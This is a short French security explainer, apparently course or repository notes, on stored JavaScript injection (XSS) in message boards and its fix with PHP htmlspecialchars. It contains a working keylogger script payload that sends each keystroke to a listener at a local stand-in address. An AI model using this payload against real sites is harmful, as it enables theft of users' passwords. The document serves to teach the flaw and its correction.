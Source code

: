 # Injection JS

## Explication de la faille

Dans certains sites il est possible de laisser des messages que tout le monde va pouvoir afficher. Cependant dans certain cas, ces messages son afficher directement dans le code HTML sans aucune sécurité. Il sera alors possible par le biais des balises `<script>` de placer du code JavaScript du côté client.
Par exemple le bout de code suivant permet de mettre du côté client un keylogger qui va envoyer en temps réel toutes les touches sur lequel aura appuyé, donc potentiellement ses mots de passe.
```html
<script>
const userID = Math.round(Math.random() * 1000000);
document.getElementsByTagName("html")[0].onkeypress = (e) => {
    var l = e.which || e.keyCode;
    var http = new XMLHttpRequest();
    http.open("GET", `http://127.0.0.1:8081/${userID}?l=${l}`, true);
    http.send();
}
</script>
```

## Explication du correctif

Pour corriger cette faille, il faut utiliser la fonctionnalité PHP `htmlspecialchars($variable, ENT_QUOTES)` qui va encoder les caractères qui pourraient être interprétés dans le DOM afin qu'il ne le soit pas.
